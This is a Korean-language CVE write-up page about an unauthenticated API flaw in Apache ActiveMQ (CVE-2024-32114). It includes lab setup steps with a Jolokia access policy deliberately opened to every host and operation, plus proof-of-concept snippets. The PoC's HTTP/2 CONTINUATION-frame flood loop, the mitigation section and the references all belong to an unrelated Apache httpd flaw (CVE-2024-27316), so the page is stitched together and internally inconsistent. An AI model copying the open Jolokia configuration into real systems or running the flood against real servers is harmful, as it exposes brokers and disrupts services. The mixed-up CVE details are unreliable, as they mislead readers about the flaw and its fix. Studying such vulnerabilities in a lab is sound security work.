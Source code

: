 ```yaml
---
layout: default
title: cve-2024-32114
category: "Apache"
nav_order: 2
parent: cve
---
```


# CVE-2024-32114
{: .no_toc }

Apache ActiveMQ 인증 우회 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
API 웹 컨텍스트(Jolokia JMX REST API 및 Message REST API)가 인증 없이 접근 가능하도록 되어 있어, 원격 공격자가 권한을 상승시키거나 민감한 정보를 탈취할 수 있는 취약점

{: .note-title }
> **Jolokia JMX REST API**는 JMX (Java Management Extensions) MBeans를 HTTP/HTTPS를 통해 RESTful 방식으로 외부에 노출합니다. 이를 통해 외부 클라이언트는 JMX를 통해 제공되는 다양한 관리 기능과 모니터링 데이터를 접근하고 사용할 수 있게 됩니다.<br>

> **Message REST API**는 메세지 브로커인 ActiveMQ와 상호작용하기 위한 RESTful 웹 서비스 인터페이스입니다. 이를 통해 클라이언트는 HTTP 요청을 사용하여 메시지 브로커와 통신할 수 있습니다. Message REST API는 메시지의 생성, 소비, 조회 등의 작업을 수행할 수 있는 기능을 제공합니다.

## 1.2 취약 대상
Apache ActiveMQ 버전 6.1.2 이전

## 1.3 공격 원리
- Apache ActiveMQ 6.1.1 버전의 기본 설정에서 인증 없는 API 접근
- 공격자는 인증이 필요하지 않은 API 엔드포인트를 식별한 후, 악의적인 페이로드를 생성하여 시스템에 전송
- 취약한 API를 통해 시스템 내에서 권한을 상승시키거나 민감한 정보를 탈취
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.56.1)
- Attacker: Windows10 (IP: 172.23.66.206) <br>

ActiveMQ v6.1.1 설치
```bash
## Java 설치, 
sudo apt install openjdk-17-jdk
java -version

## ActiveMQ v6.1.1 설치
cd /usr/local/src
wget https://archive.apache.org/dist/activemq/6.1.1/apache-activemq-6.1.1-bin.tar.gz
tar -xvf  apache-activemq-6.1.1-bin.tar.gz
mkdir /opt/activemq
sudo mv /usr/local/src/apache-activemq-6.1.1/* /opt/activemq

## ActiveMQ 사용 계정 생성 및 /opt 접근을 위한 권한 추가
sudo addgroup --quiet --system activemq
sudo adduser --quiet --system --ingroup activemq --no-create-home --disabled-password activemq
sudo chown -R activemq:activemq /opt/activemq

## 외부 접속을 위한 jetty.xml 수정 (/opt/activemq/conf/jetty.xml)
vi /opt/activemq/conf/jetty.xml 

    <bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
        <!-- 127.0.0.1 에서 0.0.0.0 으로 변경 -->
        <property name="host" value="0.0.0.0"/>
        <property name="port" value="8161"/>
    </bean>

## Jolokia 라이브러리 추가
cd /opt/activemq/lib
wget https://repo1.maven.org/maven2/org/jolokia/jolokia-core/1.6.2/jolokia-core-1.6.2.jar

## Jolokia Method 설정
vi /opt/activemq/conf/jolokia-access.xml

<?xml version="1.0" encoding="UTF-8"?>
<restrict>
    <policy>
        <methods>
            <method>LIST</method>
            <method>READ</method>
            <method>EXEC</method>
            <method>WRITE</method>
        </methods>
        <hosts>
            <host>0.0.0.0/0</host>
        </hosts>
    </policy>
    <mbeans>
        <!-- Allow all operations for the broker itself -->
        <mbean>
            <name>org.apache.activemq:*</name>
            <attribute>*</attribute>
            <operation>*</operation>
        </mbean>
        <!-- Allow all operations for Jolokia Config -->
        <mbean>
            <name>jolokia:type=Config</name>
            <operation>*</operation>
        </mbean>
    </mbeans>
</restrict>

## ActiveMQ Service 설정
sudo vi /etc/systemd/system/activemq.service

## 추가
[Unit]
Description=Apache ActiveMQ
After=network.target

[Service]
Type=forking
User=activemq
Group=activemq
ExecStart=/opt/activemq/bin/activemq start
ExecStop=/opt/activemq/bin/activemq stop

[Install]
WantedBy=multi-user.target

## Daemon 재시작
sudo systemctl daemon-reload
sudo systemctl start activemq
sudo systemctl enable activemq
sudo systemctl status activemq

## 접속 확인
http://192.168.56.1:8161/admin
```

<br>구현 된 홈페이지 (192.168.56.1:8161/admin)
![](../../assets/images/cve-2024-32114/homepage.png)

---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
import requests
import json
```

### Activemq Api를 이용하여 Message 전송
{: .no_toc }

```py
def send_message(url):
    try:
        destination = 'cve-2024-32114-Test'
        headers = {'Content-Type': 'application/json'}
        data = {
            'type': 'queue',
            'destinationName': destination,
            'body': [
                'cve-2024-32114',
                'POC Test',
                'jolokia api',
                'send message',
                'shw0331'
            ]
        }
        response = requests.post(f"{url}/api/message?type=queue&destination={destination}", json=data, headers=headers)
        print(f'Message sent successfully to {destination}')
    except Exception as e:
        print(f'Error while sending message : ', e)
```

![](../../assets/images/cve-2024-32114/sendMessage.png)

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-32114
[Apache]: https://activemq.apache.org/security-advisories.data/CVE-2024-32114-announcement.txt


